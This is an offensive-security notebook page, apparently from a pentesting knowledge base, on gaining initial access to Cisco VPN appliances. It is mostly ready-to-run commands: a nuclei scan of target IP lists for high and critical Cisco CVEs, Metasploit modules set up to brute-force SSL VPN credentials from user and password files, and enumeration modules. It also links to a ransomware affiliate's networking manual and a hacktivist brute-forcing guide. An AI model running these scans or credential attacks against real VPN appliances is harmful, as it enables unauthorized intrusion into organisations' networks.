 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - internet-of-things
  - initial-access
---
```

# Cisco

Search Tag(s): #initial-access #exploitation #password-cracking #network-protocols #internet-of-things #metasploit-framework

## 01 - CVE

```
$ nuclei -l target_ips.txt -t ~/nuclei-templates -tags cisco -s high,critical -o vulnerable-vpn-output.txt
```

## 02 - Brute Force


> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[VPN Wordlist|vpn wordlist]] to find low hanging fruit.

TODO: Fill this info

```
msf > use auxiliary/scanner/http/cisco_ssl_vpn

msf auxiliary(scanner/http/cisco_ssl_vpn) > options

msf auxiliary(scanner/http/cisco_ssl_vpn) > set RHOSTS file:ip_targets.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set RPORT <PORT>

msf auxiliary(scanner/http/cisco_ssl_vpn) > set USER_FILE users.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set PASS_FILE passwords.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set threads 10

msf auxiliary(scanner/http/cisco_ssl_vpn) > run
```

```
msf > use auxiliary/scanner/http/cisco_asa_clientless_vpn

msf auxiliary(scanner/http/cisco_asa_clientless_vpn) > options
```

```
msf > use auxiliary/scanner/http/cisco_ironport_enum

msf auxiliary(scanner/http/cisco_ironport_enum) > options
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x02 - Components with Known Vulnerabilities/Checklist|Checklist: Components with Known Vulnerabilities]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x09 - Security Misconfiguration/Checklist|Checklist: Security Misconfiguration]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x02 - Components with Known Vulnerabilities/Helpers/Dorks/Internet of Things/VPN Appliances/Google Dorks|Google Dork: VPN Appliances]]

### VX Underground Papers

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)

### Enlace Hacktivista

- [Enlace Hacktivista: VPN brute forcing](https://enlacehacktivista.org/index.php?title=VPN_brute_forcing)
